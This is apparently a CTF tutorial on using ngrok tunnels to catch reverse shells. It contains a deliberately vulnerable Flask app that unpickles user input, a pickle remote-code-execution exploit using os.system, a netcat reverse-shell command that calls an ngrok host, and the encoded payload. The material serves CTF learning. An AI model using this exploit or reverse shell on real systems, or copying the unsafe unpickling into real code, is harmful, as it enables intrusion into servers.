






# Getting started with ngrok

**What is ngrok? What could I ever use it for in a CTF?**

`ngrok` is a tool that lets you securely connect your localhost server or create a TCP tunnel instantly. This is very useful if you're trying to spawn a reverse shell and don't want to go through the hassle of setting up your own server on the Cloud or elsewhere. It can be used to do some other stuff too but these are the main use cases from a CTF perspective. You can find ngrok [here](https://ngrok.com/).


**Setup**

- Download the latest ngrok version for your operating system from [here](https://ngrok.com/download). For the purpose of this tutorial, I will be using Kali Linux as my operating system.

- Once downloaded, extract the contents of the file. Just make sure to follow the instructions on the download page of ngrok.

```
sudo tar xvzf ~/Downloads/ngrok-v3-stable-linux-amd64.tgz -C /usr/local/bin

# alternatively, you can install ngrok using apt-get/apt
curl -s https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok

# or snap
sudo snap install ngrok
```

- Now, you need to add an authentication token to be able to use ngrok. You can find your authentication token by signing up on the ngrok website and copying it from your dashboard.

```
ngrok config add-authtoken <YOUR_TOKEN_GOES_HERE>
```

- You're all setup to use ngrok now!

```bash
┌──(arrow) 💀 [~/…/github/capture-the-flag/guide/getting-started-with-ngrok] <master>
└─$ ngrok --help    
NAME:
   ngrok - tunnel local ports to public URLs and inspect traffic

DESCRIPTION:
    ngrok exposes local networked services behinds NATs and firewalls to the
    public internet over a secure tunnel. Share local websites, build/test
    webhook consumers and self-host personal services.
    Detailed help for each command is available with 'ngrok help <command>'.
    Open http://localhost:4040 for ngrok's web interface to inspect traffic.

EXAMPLES:
    ngrok http 80                    # secure public URL for port 80 web server
    ngrok http -subdomain=baz 8080   # port 8080 available at baz.ngrok.io
    ngrok http foo.dev:80            # tunnel to host:port instead of localhost
    ngrok http https://localhost     # expose a local https server
    ngrok tcp 22                     # tunnel arbitrary TCP traffic to port 22
    ngrok tls -hostname=foo.com 443  # TLS traffic for foo.com to port 443
    ngrok start foo bar baz          # start tunnels from the configuration file

VERSION:
   2.3.40

AUTHOR:
  inconshreveable - <alan@ngrok.com>

COMMANDS:
   authtoken	save authtoken to configuration file
   credits	prints author and licensing information
   http		start an HTTP tunnel
   start	start tunnels by name from the configuration file
   tcp		start a TCP tunnel
   tls		start a TLS tunnel
   update	update ngrok to the latest version
   version	print the version string
   help		Shows a list of commands or help for one command
```

As can be seen, you can start secure HTTP, TCP and TLS tunnels - all in the blink of an eye without going through the process of setting up any private servers! That's all it takes to connect your local machine to the internet for doing something fast such as running a reverse shell exploit or redirecting traffic to your malicious payload local server through Cross Site Scripting, etc - which is what many CTF challenges are about! However, note that ngrok tunnels last only for as long as 2 hours, after which you will have to restart them.


**Demonstration**

As a brilliant node-js/python-flask/[INSERT-COOL-WEB-APPLICATION-FRAMEWORK-HERE] web application developer, you decided to take up yet another project (for the sake of this example, let's stick to a Python Flask web application that uses Pickle). You start to do some basic setup.

- Creating a virtual environment (read more [here](https://docs.python.org/3/library/venv.html)). As the very first step, you need to make sure to always work within virtual environments in python because installing certain packages and libraries might cause dependency issues if done globally.

```
# installing python3 and other required stuff
sudo apt-get install python3 python3-pip python3-venv -y

# creating project directory and virtual environment
mkdir sample-python-flask-pickle-app
cd sample-python-flask-pickle-app
python3 -m venv .sample-python-flask-pickle-app-venv
source .sample-python-flask-pickle-app-venv/bin/activate

# installing necessary libraries/modules
pip3 install flask pickle-mixin

# creating your source files directory
mkdir src
cd src
```

- Creating a simple flask application. In your `src/` directory, create a file called `app.py` (the name doesn't really matter) with the following contents:

```python
import pickle
import base64
import flask

app = flask.Flask(__name__)

@app.route("/", methods = ["GET"])
def home ():
  template = '''\
<html>
  <head><title>ngrok tutorial</title></head>
  
  <body>
    Can you get a reverse shell? Enter serialized Python Pickle data in base64 encoded form below. <br /><br />
    <form action="/ngrokme" method="post">
      <label for="payload">Enter base64 data:</label>
      <input type="text" name="payload" placeholder="base64-data" />
      <input type="submit" value="Submit" />
    </form>
  </body>
</html>
'''
  return flask.render_template_string(template), 200

@app.route("/ngrokme", methods = ["POST"])
def ngrokme ():
  try:
    payload = base64.urlsafe_b64decode(flask.request.form.get('payload').encode())
    pickle.loads(payload)
  except:
    return 'error unpickling your payload', 200
  return 'hmm, did your reverse shell payload work?', 200

app.run(host = '0.0.0.0', port = 31337, debug = True)
```

This is a very simple flask application that blindly unserializes pickled data. You need to submit base64 encoded data and the application will try to unpickle the data. This is a very serious problem in real world applications because it could lead to Remote Code Execution on servers. I will not go into the details of explaining how Pickle works and how this could be exploited as we're trying to focus on ngrok. You can read more about pickle exploitation [here](https://davidhamann.de/2020/04/05/exploiting-python-pickle/).

- Read through the article linked above to understand about pickle exploitation in detail. To get RCE, we can just copy the code from the article.

```python
import pickle
import base64
import os

class RCE:
  def __reduce__(self):
    cmd = ('whoami')
    return os.system, (cmd,)

if __name__ == '__main__':
  pickled = pickle.dumps(RCE())
  print(base64.urlsafe_b64encode(pickled).decode())
```

This simple exploit runs the `whoami` command on a shell/terminal in the server that trusts the serialized pickle data blindly and unserializes it. However, the problem here is that we cannot see the output of that command because even though we can remotely execute code, we have no way of reading the output directly (or atleast I don't know of an easier way to do it than getting a reverse shell).

- Getting a reverse shell. This part requires some blind guessing as we cannot see the output of our commands in an easy way. We must try and assume that the server has certain binaries that allow you to make remote TCP connections. Some examples of such binaries are `netcat/nc`, `python`, `bash`, etc. For the purpose of this example, I have `netcat` installed on my local machine. As an attacker, you must try different things out to detect what binaries are present on the server and if they can be abused to return a reverse TCP connection. You can find simple payloads for different applications [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). Note that some may work, some may not. You need to be able to understand what happens under the hood and diagnose problems that you come across. Sometimes, you will have to bypass filtered characters and might have to get a bit crafty. But, that's what hacking is about!
  - Start running the application on local server by running `python3 app.py`

  

  - Start a netcat listener on attacker shell by running `nc -nlvp 8888`. This command creates a netcat listener that waits for inbound connections to port 8888.

  

  - Create a TCP tunnel to your local netcat listener using ngrok by running `ngrok tcp 8888`. Now, your local listener is connected to the internet and listens for inbound TCP connections.

  

  - Craft a reverse shell payload. In the pickle exploit above, change cmd to the one below and run the program.

  ```
  cmd = ('nc -e /bin/bash 2.tcp.ngrok.io 13168')
  # Note that you need to put in your forwarding interface as shown by ngrok
  ```

  The resulting output looks something like this for me: `gASVPwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCRuYyAtZSAvYmluL2Jhc2ggMi50Y3Aubmdyb2suaW8gMTMxNjiUhZRSlC4=`

  

  - Enter the payload on web interface in the form input element. The browser just continues to show that it is in loading state. In reality, the reverse shell payload has executed on the server and we've received an inbound TCP connection with a reverse shell!

  

  

And that's it! We're able to execute commands remotely on a server right from our own machine. The implications of this are serious... as we can run whatever we want on the server. Usually that's untrue because applications run as a low-privileged user and you're required to further exploit and try privilege escalation to root.
